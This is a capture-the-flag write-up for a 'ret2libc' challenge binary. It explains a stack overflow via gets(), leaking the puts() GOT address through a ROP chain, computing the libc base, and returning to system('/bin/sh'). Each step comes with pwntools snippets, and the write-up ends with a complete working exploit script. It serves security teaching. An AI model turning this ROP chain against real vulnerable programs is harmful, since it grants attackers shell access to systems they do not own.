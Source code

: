 # ret2libc
# Difficulty: Medium

Assumption: Know about the PLT/GOT, basic stack overflows, basic ROP theory
Ping me on discord (`garrettgu10#8125`) if you don't know these~!

You might also find it helpful to take a look at this writeup for a very
similar problem: 
https://github.com/utisss/ctf/tree/master/2020/ctf-10-16-2020/binary-shellcode2

When we first load up the binary in pwntools, we find that the program has ASLR
enabled, as well as NX, but does not use a stack canary.

```
[*] '/home/garrettgu/foreverctf/pwn-ret2libc/ret2libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Our end goal is to call system() in the libc library. However, since our target
program does not call system(), this means that the PLT does not contain an 
entry for system(). Looking at the symbol table, we see that there is a PLT 
entry for puts() and gets(), since these are the two only libc functions used
by the vulnerable program. 

Of course, the entire libc library itself is mapped into the program's address
space, but since we have ASLR enabled, the libc base address is subject to 
change. So we need to leak the libc address first. Our plan is to leak the 
address stored in the GOT for puts() (since our program already called it &
thus populated its GOT entry) by faking a call to puts() through the PLT. This
works since both the GOT and the PLT are linked statically within the target
ELF file. 

By inspecting the source code using a tool like Ghidra or Cutter, we can see 
that the main function calls gets() on a stack address. Since there's no stack
canary, this means that we can overwrite the return address. 

Using a process identical to the process in the writeup linked above, we find 
that inputting 56 filler bytes, followed by some 8-byte value replaces the 
return address with the value. 

We want to first leak the libc base. In order to do this, we call puts() 
through the PLT address, passing in the address to the GOT entry for puts().
Finally, we return to main, so we can put in another payload after leaking the
libc base address.

```python
poprdi = rop.find_gadget(["pop rdi", "ret"])[0]
pltputs = 0x401050 
# hardcoded address since pwntools seems to have issues getting the plt address through the symbol table
# you can find this address easily through the sidebar in Cutter, Ghidra, or by disassembling "puts" through objdump.
conn.send(b' '*56 + p64(poprdi) + p64(e.got['puts']) + p64(pltputs) + p64(e.symbols['main']) + b'\n')
```

Once we leaked the puts address, we can call system(), by finding some location
in the libc library that happens to contain the string "/bin/sh", popping an 
address to that string, then finally returning to the address of system(), 
offsetted by the libc base. Since libc requires RSP to be 16-byte aligned when
entering the function, I ran into a segfault halfway through executing system().
This alignment issue can be fixed by adding a ROP gadget consisting only of 
"RET" to pad out the rsp.

```python
libcoff = puts - libc.symbols['puts']
binsh = next(libc.search(b'/bin/sh')) + libcoff

print(hex(libcoff))

conn.send(b' '*56 + p64(poprdi) + p64(binsh) + p64(ret) + p64(libcoff + libc.symbols['system']) + b'\n')

conn.interactive()
```

The full solution code is available below. Please ping me on 
Discord (`garrettgu10#8125`)if any part of my writeup needs clarification ^^
```
from pwn import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
e = ELF("ret2libc")

rop = ROP(e)
poprdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

pltputs = 0x401050

conn = process("ret2libc")
conn.recvline()

conn.send(b' '*56 + p64(poprdi) + p64(e.got['puts']) + p64(pltputs) + p64(e.symbols['main']) + b'\n')

conn.recvline()
conn.recvline()

leaked_puts = conn.recvline()[:-1]
leaked_puts = leaked_puts + b'\x00' * (8 - len(leaked_puts))

puts = u64(leaked_puts)

print(hex(puts))

libcoff = puts - libc.symbols['puts']
binsh = next(libc.search(b'/bin/sh')) + libcoff

print(hex(libcoff))

conn.send(b' '*56 + p64(poprdi) + p64(binsh) + p64(ret) + p64(libcoff + libc.symbols['system']) + b'\n')

conn.interactive()
```
